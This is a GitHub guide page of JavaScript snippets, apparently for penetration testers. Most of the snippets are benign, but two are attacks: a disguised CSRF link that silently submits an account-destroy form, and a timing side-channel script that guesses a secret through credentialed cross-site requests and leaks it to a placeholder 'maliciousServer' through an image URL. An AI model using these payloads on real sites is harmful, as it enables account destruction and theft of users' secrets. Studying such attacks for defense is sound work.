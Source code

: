 
# CODE EXAMPLES
1. [DOWNLOAD FILE](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Javascript.md#download-file-webconsole)
2. [CREATE CLASS](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Javascript.md#create-class-webconsole)
3. [CONTROL WINDOW SIDEBAR](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Javascript.md#control-window-sidebar-webconsole)
4. [CSRF](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Javascript.md#csrf)
5. [NORMALIZE STRING](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Javascript.md#normalize-string)
6. [MEASURE PERFORMANCE (SIDE CHANNEL ATTACK)](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Javascript.md#measure-performance)

<br />

## Download File (WebConsole)
```
function downloadURI(uri, name) 
{
    var link = document.createElement("a");
    // If you don't know the name or want to use
    // the webserver default set name = ''
    link.setAttribute('download', name);
    link.href = uri;
    document.body.appendChild(link);
    link.click();
    link.remove();
}
downloadURI("https://example.com/file.png", "captcha1")
```
<br />

## Create Class (WebConsole)
```
class Animals {
  constructor(name, age) {
    this.name = name;
    this.specie = age;
  }
  
  sing(){
    return `${this.name} can sing.`;
  }
  
  dance(){
    return `${this.name} can dance.`;
  }
}  

let bingo = new Animals("bingo", "10");
console.log(bingo);
console.log(bingo.sing());
```
<br />

## Control Window Sidebar (WebConsole)
- Open WebDev Tool
- `window.scrollby(x, y);`

<br />

## CSRF
```
<a href="http://www.harmless.com/" onclick="
  var f = document.createElement('form');
  f.style.display = 'none';
  this.parentNode.appendChild(f);
  f.method = 'POST';
  f.action = 'http://www.example.com/account/destroy';
  f.submit();
  return false;">To the harmless survey</a>
```

<br />

## Normalize String
- Details: [https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/normalize](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/normalize)
```
x = "ã" 

console.log('Unicode codepoint:', 
  x.charCodeAt(0).toString(16),
  x.charCodeAt(1).toString(16))
// → Unicode codepoint: 61 303

console.log('Normalize:', x.normalize('NFC'))
console.log('Normalize:', x.normalize('NFD'))
console.log('Normalize:', x.normalize('NFKC'))
console.log('Normalize:', x.normalize('NFKD'))
```

## MEASURE PERFORMANCE
- Could be used for **Sidechannel Attacks**
```
<script>
  const t0 = performance.now();
  for (let i = 0; i < 10; i++) {
    console.log(i);
  }
  const t1 = performance.now();
  console.log(`Call to doSomething took ${t1 - t0} milliseconds.`);
</script>
```

- Script to measure time difference while guessing key
- Sending correct guess back to own server
```
<!DOCTYPE html>
<body onload="document.getElementById('attack');">
<script id="attack">

var str = "0123456789-abcdef".split("");
var base = "http://vulnerable.com/search?search=^";
var key = "";
var i = 0;

function check(key, i) {
  url = base + key + str[i];
  t0 = performance.now();
  fetch(
    url,
    {
      method: 'GET',
      credentials: 'include',
      mode: 'no-cors'
    }
  ).catch(err => {
      console.log("ERR");
  }).then(response => {
      t1 = performance.now();
      if (t1-t0 > 3000 ) {
          document.write("<br /> [+] "+str[i]+" "+(t1-t0).toString());
          key += str[i];
          document.write('<img src="http://maliciousServer/?leak='+key+'" />');
          j = 0;
          while (j < str.length){
            check(key,j);
            j+=1;
          }

      } else {
          document.write("<br /> [x]"+str[i]+" "+(t1-t0).toString());
    }
  });
}

while (i < str.length) {
  setTimeout(check(key, i), 500*i);
  i+=1;
}

</script>
</body>
</html>
```
